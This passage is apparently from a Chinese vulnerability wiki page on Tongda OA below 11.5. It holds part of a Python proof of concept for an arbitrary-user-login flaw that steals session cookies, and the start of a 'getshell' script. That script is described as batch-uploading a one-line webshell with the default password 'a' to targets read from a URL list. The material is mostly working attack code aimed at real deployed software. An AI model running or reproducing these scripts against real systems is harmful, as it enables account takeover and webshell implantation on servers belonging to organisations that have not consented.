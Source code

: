 
        def run(self):
            self.get_tongda_cookies()



    if __name__ == '__main__':

        # Author  : 小泫

        warnings.simplefilter("ignore")
        if (len(sys.argv)) < 2:
            print('useage : python' +str(sys.argv[0]) + ' -h')
        else:
            parser =argparse.ArgumentParser()
            parser.description ='通达OA < 11.5版本 任意用户登录'
            parser.add_argument('-u',help="待检测url -> example http://127.0.0.1",type=str,dest='check_url')
            args =parser.parse_args()

            aa = Tond_da_poc(args.check_url)
            aa.run()

![](/Users/aresx/Documents/VulWiki/.resource/通达OA<11.5.200417任意用户登录漏洞/media/rId34.png)

### getshell poc

> url.txt： 测试url，支持批量
>
> vuln.txt：上传成功的webshell
>
> 上传的默认一句话shell密码a

    # Usage: python tongda.py
    # Default webshell password:a

    import requests
    import threadpool
    import urllib3
    import json
    import base64

    urllib3.disable_warnings()
    header = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Referer": "https://google.com",
    }
    proxy = {       # debug
        "http": "http://127.0.0.1:8080",
        "https": "http://127.0.0.1:8080"
    }
